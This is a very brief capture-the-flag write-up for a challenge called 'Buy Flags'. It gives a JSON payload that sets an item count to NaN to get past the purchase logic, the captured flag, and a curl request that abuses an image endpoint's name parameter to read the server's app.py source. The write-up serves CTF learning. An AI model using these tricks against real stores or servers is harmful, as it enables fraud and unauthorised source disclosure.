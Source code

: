 # Buy Flags

set count to NaN

`{"card":[{"name":"asis","count":NaN}],"coupon":"YXNkc2RzZHM="}`

`ASIS{th1@n_3xpens1ve_Fl@G}`

---

or using

`curl "http://46.101.173.61//image?name=app.py"`

to get the source code
